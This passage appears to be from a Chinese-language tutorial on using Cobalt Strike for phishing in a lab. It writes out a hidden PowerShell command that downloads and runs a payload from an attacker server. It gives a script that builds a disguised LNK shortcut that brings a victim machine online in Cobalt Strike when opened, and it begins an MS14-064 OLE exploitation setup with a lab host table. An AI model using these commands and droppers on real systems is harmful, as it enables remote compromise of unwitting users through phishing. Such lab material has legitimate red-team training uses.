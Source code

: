 选择`钓鱼攻击>Scripted Web Delivery`, 生成PowerShell远程执行代码

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.47.134:80/a'))"
```

![image-20221008093244770](Cobalt Strike的使用/image-20221008093244770.png)	

![image-20221008093510210](Cobalt Strike的使用/image-20221008093510210.png)	



按照上面做的简单powershell步骤,将其内容里的calc.exe换成powershell代码, 保存为test.txt文件 

```
cmd /c powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.47.134:80/a'))"
```

![image-20221008094547272](Cobalt Strike的使用/image-20221008094547272.png)	



创建LNK.ps1文件, 将如下代码写入进去, 然后右键powershell执行后, 会在文件当前目录下生成test.lnk文件

若受害机运行了test.lnk文件, 则在CS上线

> 注意:LNK.ps1和test.txt要在同一目录下

```powershell
$file = Get-Content "test.txt"
$WshShell = New-Object -comObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut("test.lnk")
$Shortcut.TargetPath = "%SystemRoot%\system32\cmd.exe"  
$Shortcut.IconLocation = "%SystemRoot%\System32\Shell32.dll,21"
$Shortcut.Arguments = ''+ $file
$Shortcut.Save()
```

​		

## OLE远程代码执行(MS14-064)

### 简介

Microsoft Windows OLE 远程代码执行漏洞，影响Win95+IE3 - Win10+IE11全版本

通过MSF生成恶意url连接, 配合CS克隆网站进行钓鱼攻击, 然后受害机在CS上线



### 准备环境

| 主机                 | 描述            |
| -------------------- | --------------- |
| 192.168.47.134(kali) | CS服务器        |
| 192.168.47.144(kali) | MSF             |
| 192.168.47.133(win7) | CS客户端,攻击机 |
| 192.168.47.141(win7) | 受害机          |
